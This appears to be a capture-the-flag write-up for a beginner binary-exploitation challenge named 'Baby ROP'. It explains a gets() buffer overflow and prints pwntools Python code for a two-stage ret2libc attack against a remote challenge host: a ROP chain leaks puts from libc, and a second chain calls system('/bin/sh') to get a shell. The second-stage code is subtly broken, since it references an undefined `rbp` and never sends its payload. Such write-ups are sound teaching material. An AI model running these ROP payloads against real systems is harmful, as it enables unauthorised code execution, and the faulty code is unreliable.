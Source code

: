 
## Challenge: Baby ROP
**Type:** Pwn/Binary Exploitation  
**Difficulty:** Beginner  
**Environment:** Ubuntu 20.04

### Initial Analysis
We're given a binary `pwn_baby_rop` that prompts for input. Basic interaction shows no obvious functionality, so we analyze it with Ghidra.

### Vulnerability Discovery
We see that for getting the input the unsafe gets functions is used:
![alt text](image.png)

Seeing that it means that we can craft a ret2libc attack.

### Exploitation Strategy: Two-Stage ret2libc

To do that, first we would need to leak an address from libc. We will do that for puts by getting the puts got address and the puts plt address.
After doing that we will simply abuse the buffer overflow vulnerability by leaking the puts adress in libc.
Also, after calling leaking the puts address we will return to the main function so we can be asked for input again, now knowing an address from libc.

The first part of the exploit will look like this:
```python
from pwn import *
env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.159.211.30", 32627)
io.recvuntil("black magic.\n")
#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C
payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)
io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))
```

In the second stage we will need to first find the libc version so we could know the offsets. To do that we can search on libc database website and find:
![alt text](image-1.png)

Now, as we know the offsets we can first find the libc base addr, then find the system call and also the /bin/sh string address.

The second part of the exploit will look like:
```python
# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa
libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))
simple_ret = 0x0040101a
payload = b"A" * 256
payload += p64(rbp)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(simple_ret)
payload += p64(system)
```

And that is how the system function will be called with /bin/sh arg and we pwn the binary.

### Key Learning Points:
1. **Buffer Overflow Basics**: Using `gets()` creates predictable overflow conditions
2. **ret2libc Technique**: Bypassing NX bit by reusing existing libc functions  
3. **Address Leaking**: Using GOT/PLT to leak randomized addresses
4. **ROP Chains**: Chaining gadgets to control program execution
5. **Libc Database**: Using leaked addresses to identify exact libc version

This is a classic introduction to modern binary exploitation techniques!